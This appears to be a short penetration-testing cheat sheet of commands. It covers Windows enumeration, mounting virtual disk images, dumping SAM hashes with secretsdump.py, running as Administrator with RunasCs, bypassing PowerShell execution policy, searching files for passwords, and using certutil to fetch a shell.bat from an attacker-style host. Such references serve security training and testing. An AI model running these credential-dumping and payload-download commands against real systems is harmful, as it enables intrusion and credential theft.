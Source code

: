 - Enumerating Computer Description Field 
```powershell
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

**Mount VHDX/VMDK**

- Mount VMDK on Linux
```shell
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

- Mount VHD/VHDX on Linux

```shell
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

- Retrieving Hashes using Secretsdump.py

```shell
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### Ressources

- Download Runas
```sh
wget https://github.com/antonioCoco/RunasCs
```

- Switch user cmd
```sh
RunasCs.exe Administrator password "cmd /c whoami "
```

- Bypass Powershell Policy 
```powershell-session
Set-ExecutionPolicy Bypass -Scope Process
```
- Compiled Tools : 
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

- Grep on Windows : 
```sh
cat file.txt | Select-String password
```

- Living Off The Land Binaries and Scripts (LOLBAS):
https://lolbas-project.github.io/#

- Transferring File with Certutil :
```powershell
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

- Encoding File with Certutil : 
```cmd-session
certutil -encode file1 encodedfile
```
